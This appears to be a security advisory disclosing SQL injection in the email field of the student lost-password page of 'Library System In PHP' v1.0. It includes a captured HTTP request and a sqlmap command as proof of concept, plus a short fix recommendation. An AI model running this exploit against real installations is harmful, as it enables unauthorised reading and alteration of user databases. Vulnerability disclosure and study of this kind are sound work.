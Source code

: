 # Library System In PHP - SQL Injection (Student Lostpass)

### Vendor Homepage:

> https://code-projects.org/

### Software Link:

> [Library System In PHP](https://code-projects.org/library-system-in-php-with-source-code/)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /Lms/Source/librarian/user/student/lost-password.php

> The parameters `email` within student lost-password are vulnerable to SQL Injection.


![email](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.5Library-System-In-PHP-Sqli-student_lostpass_email.png)

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Save the following request to `studentlostpass.txt`:

```
POST /Lms/Source/librarian/user/student/lost-password.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://172.16.8.56/Lms/Source/librarian/user/index.php
Cookie: PHPSESSID=4nq5is5jf875uo0a4v5nohv7s7
Content-Length: 70
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Host: 172.16.8.56
Connection: Keep-alive

email=1&reset-password=
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r studentlostpass.txt --batch --dbms MYSQL --is-dba -p email
```

## Recommendations

When using this Library System In PHP, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
